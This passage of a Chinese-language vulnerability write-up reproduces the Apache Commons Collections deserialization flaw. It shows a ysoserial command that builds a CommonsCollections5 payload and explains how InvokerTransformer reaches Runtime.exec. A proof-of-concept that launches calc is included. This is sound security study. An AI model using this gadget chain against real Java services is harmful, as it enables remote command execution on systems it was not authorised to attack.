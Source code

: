 ```
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

# 漏洞复现

在这里使用`ysoserial`工具生成payload，然后运行我们创建的java文件达成命令执行的效果

`java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 calc > test.ser`

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0be64ae8-5c69-7989-4ec3-e1babdd1bba1.png)

# 漏洞分析

漏洞出现在`org.apache.commons.collections.functors.InvokerTransformer#transform` 

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/386b4511-a9b7-8418-fe65-a604ad0934d8.png)

该类继承了`Transformer`和`Serializable`接口，然后可以看出下面使用反射方法，而其中的`this.iMethodName`、`this.iParamTypes`和`this.iArgs`变量可控，导致可以用反射去调用`Runtime.getRuntime().exec(cmd)`执行系统命令。

构造如下代码，去控制变量尝试弹出计算器

```
package payload;

import org.apache.commons.collections.functors.InvokerTransformer;

public class CommonsCollections5 {
    public static void main(String[] args){
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec", new Class[]{String.class}, new String[]{"calc"}
        );
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0319ab36-9048-dc91-36b4-06520c3ee787.png)
